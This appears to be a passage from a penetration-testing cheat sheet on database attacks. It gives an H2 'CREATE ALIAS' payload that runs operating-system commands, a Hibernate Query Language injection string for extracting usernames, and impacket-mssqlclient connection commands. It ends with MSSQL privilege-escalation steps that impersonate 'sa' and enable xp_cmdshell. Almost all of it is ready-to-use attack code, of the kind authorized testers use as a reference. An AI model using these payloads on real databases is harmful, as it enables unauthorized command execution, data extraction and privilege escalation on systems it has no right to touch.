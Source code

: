 ## H2

### Code Execution

```console
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : ""; }$$;
```

```console
CALL EXECVE('id')
```

## Hibernate Query Language Injection (HQLi)

```console
uid=x' OR SUBSTRING(username,1,1)='m' and ''='&auth_primary=x&auth_secondary=962f4a03aa7ebc0515734cf398b0ccd6
```

## impacket-mssqlclient

> https://github.com/fortra/impacket

### Common Commands

```console
SQL> enum_logins
SQL> enum_impersonate
```

### Connection

```console
$ impacket-mssqlclient <USERNAME>@<RHOST>
$ impacket-mssqlclient <USERNAME>@<RHOST> -windows-auth
$ impacket-mssqlclient -k -no-pass <RHOST>
$ impacket-mssqlclient <RHOST>/<USERNAME>:<USERNAME>@<RHOST> -windows-auth
```

```console
$ export KRB5CCNAME=<USERNAME>.ccache
$ impacket-mssqlclient -k <RHOST>.<DOMAIN>
```

### Privilege Escalation

```console
SQL> exec_as_login sa
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

## MongoDB
